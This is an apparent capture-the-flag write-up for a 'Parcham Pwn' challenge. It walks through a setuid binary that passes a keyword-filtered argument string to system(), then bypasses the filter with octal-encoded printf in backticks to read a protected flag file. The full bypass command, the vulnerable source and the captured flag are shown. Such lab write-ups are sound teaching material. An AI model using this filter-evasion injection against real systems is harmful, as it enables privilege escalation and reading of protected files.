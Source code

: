 # Parcham Pwn first challenge

After logging into the server we see there are two users

```
user1@parcham-os-1:~$ ls /home/

flag  user1
```

If we check the flag user's home directory we see there is a flag file named flag.txt\
it's owner user and group is flag. so we can not read the file


Let's check flag's home directory

```
user1@parcham-os-1:/home/flag$ ls -l 
total 28
-r-sr-xr-x 1 flag flag 17112 Jan 26 22:14 access
-r--r--r-- 1 flag flag  1143 Jan 26 21:15 access.c
-r--r----- 1 flag flag    42 Jan 26 21:21 flag.txt

```


we have a access binary with suid enabled\
which indicates that the effective user of that is flag user\
So if we run code binary with user1 we actually are running it with flag user (because of suid bit set for it's owner flag user)


Let's take a look at access.c

```
user1@parcham-os-1:/home/flag$ cat access.c 
#include <sys/types.h>
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <strings.h>
#include <string.h>

char *gen_cmd(int argc, const char **argv){
        size_t total_size = 1;
        for(int it = 1; it < argc; it++){
                total_size+= strlen(argv[it]);
        }
        char *ret = malloc(total_size);
        total_size = 0;
        for(int it = 1; it < argc; it++){
                size_t len = strlen(argv[it]);
                memcpy(ret+total_size, argv[it], len); 
                total_size+= len;
                ret[total_size] = ' ';
                total_size++;
        }
        ret[total_size] = '\0';
        return ret;
}

int filter(const char *cmd){
        int valid = 1;
        valid &= strstr(cmd, "*") == NULL;
        valid &= strstr(cmd, "sh") == NULL;
        valid &= strstr(cmd, "/") == NULL;
        valid &= strstr(cmd, "home") == NULL;
        valid &= strstr(cmd, "parcham") == NULL;
        valid &= strstr(cmd, "busybox") == NULL;
        valid &= strstr(cmd, ".") == NULL;
        valid &= strstr(cmd, "$") == NULL;
        valid &= strstr(cmd, "flag") == NULL;
        valid &= strstr(cmd, "txt") == NULL;
        return valid;
}


int main(int argc, const char **argv){
        setreuid(UID, UID);
        char *cmd = gen_cmd(argc, argv);
        if (!filter(cmd)){
                exit(-1);
        }
        setenv("PATH", "", 1); 
        system(cmd);
}
```

gen_cmd function just malloc some memory space for our input and concatinate all of them together\
main function sets UID and grab our input then pass it to filter function\
after that set PATH variable to "" and after that it runs our input\
(we know this command now is running as flag user because of suid bit enabled)


so let's check the binary with some input
```
user1@parcham-os-1:/home/flag$ ./access ls
sh: ls: No such file or directory
```

because of setting path variable to "" so we have no access to our commands\
also if we use like this
```
user1@parcham-os-1:/home/flag$ ./access /usr/bin/ls
user1@parcham-os-1:/home/flag$ 
```

we get no result because of filter function

but we also can execute some limited commands with linux built-in commands\
because we can't use flag and txt keywords and other important characters I used octal encoding
So I used printf and backticks and octal encoding for this

Let's go step by step\
we wanna run this command
```
/usr/bin/cat /home/flag/flag.txt
```

1) First encode this with octal encoding
```
/usr/bin/cat /home/flag/flag.txt -> 57 165 163 162 57 142 151 156 57 143 141 164 40 57 150 157 155 145 57 146 154 141 147 57 146 154 141 147 56 164 170 164
```

2) Second use printf to print this octal ascii's in raw format
```
user1@parcham-os-1:/home/flag$ printf "%0b" "\57\165\163\162\57\142\151\156\57\143\141\164\40\57\150\157\155\145\57\146\154\141\147\57\146\154\141\147\56\164\170\164\12"
/usr/bin/cat /home/flag/flag.txt
user1@parcham-os-1:/home/flag$ 
```

3) Thirst use backticks \`\` to execute this command\
(Don't forget to escape backticks characters. otherwise it will first execute the output then pass it to access binary)
```
./access \`'printf "%0b" "\57\165\163\162\57\142\151\156\57\143\141\164\40\57\150\157\155\145\57\146\154\141\147\57\146\154\141\147\56\164\170\164\12"'\`
parcham{bbe147934d55c3695b037b259fed8eca}
```

Finish\
by KooroshRZ.
